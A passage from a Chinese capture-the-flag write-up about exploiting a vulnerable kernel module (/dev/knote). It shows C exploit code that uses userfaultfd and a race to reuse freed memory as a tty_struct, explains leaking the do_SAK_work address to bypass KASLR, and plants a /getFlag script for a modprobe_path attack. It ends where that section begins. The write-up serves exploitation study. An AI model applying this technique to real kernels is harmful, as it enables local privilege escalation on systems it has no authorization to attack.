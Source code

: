 ```c
    faultBuffer = (char*)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    registerUserFaultFd(faultBuffer, 0x1000, (void*)fault_handler_thread);

    int shellFile = open("/getFlag", O_RDWR | O_CREAT);
    char* shellCode = "#!/bin/sh\n"
                      "chmod 777 /flag";
    write(shellFile, shellCode, strlen(shellCode));
    close(shellFile);
    system("chmod +x /getFlag");

    fd = open("/dev/knote", O_RDWR);
    add(TTY_STRUCT_SIZE);
    int pid = fork();
    if(pid < 0)
        errExit("Fork failed");
    else if(pid == 0){
        puts(GREEN "Child process sleeping..." CEND);
        sleep(2);
        puts(GREEN "Ready to delete note in child process..." CEND);
        dele(0);
        sleep(1);
        puts(GREEN "Ready to open /dev/ptmx in child process..." CEND);
        open("/dev/ptmx", O_RDWR);
        exit(0);
    }else
        get(0, faultBuffer);
    print_binary(faultBuffer, TTY_STRUCT_SIZE);
}
```

![](https://img-blog.csdnimg.cn/bb25fbeb52e24948a81a2a42d413dc4b.png)
上图就是通过``userfaultfd``阻塞后获取到的部分内存内容，可以发现虽然``/dev/ptmx``打开之后分配了``ptm_unix98_ops``和``pty_unix98_ops``，但是并没有出现``tty_operations``中特有的魔数。

![](https://img-blog.csdnimg.cn/b307b115c39047389a932cf55d766b7c.png)
但是在``0x2B0``的偏移处我们发现了一个可疑的值：``0xffffffff91bd4ef0``。为什么说这个值很可疑呢？如果我们使用``cat /proc/kallsyms``命令获取标识符的地址时不难发现，绝大多数内核的标识符地址都是以8个f开头的，而在我们获取到的地址中只有这一个值前面跟上了8个f，因此我们有理由怀疑这个地址有可能是某个标识符的地址，而不需要对我们获取的其他值通过
``cat /proc/kallsyms | grep xxx``来进行查找了。从上面的图中我们也可以看到，这个值也确实是一个标识符的值：``do_SAK_work``，我们不需要管这个标识符的作用是什么，但通过这个标识符我们就已经能够获取到内核的基址，绕过KASLR保护了。

![](https://img-blog.csdnimg.cn/e6fe3040911d465d806cf0be94148e28.png)
在IDA中，我们可以获取到``do_SAK_work``在未KASLR时的地址。

![](https://img-blog.csdnimg.cn/902686a48f6348e5be69166ab9adb570.png)
<font color=red>**需要注意的是，本题中``do_SAK_work``这个地址并不是每一次都会出现，而且有可能尝试很多次都是什么都没有读取到，需要进行多次尝试才能获取该地址。**</font>

## 2. 通过``modprobe_path``进行利用
在获取了内核的基地址之后，我们就需要使用一个新的利用方式——``modprobe_path``来进行后面的利用了。
